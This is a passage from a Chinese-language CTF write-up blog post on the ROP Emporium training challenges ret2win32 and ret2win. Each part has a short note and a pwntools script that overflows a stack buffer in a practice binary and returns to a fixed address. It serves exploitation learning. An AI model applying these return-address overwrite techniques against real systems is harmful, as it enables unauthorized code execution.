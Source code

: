 ```yaml
---
layout: post
title:  "ROP_Rmporium通关指南"
date:   2018-09-19 18:44:00
categories: WriteUp
tags: WriteUp PWN ROP_Emporium
---
```


* content
{:toc}


暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的rop——rmporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下参数是先存寄存器后入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## 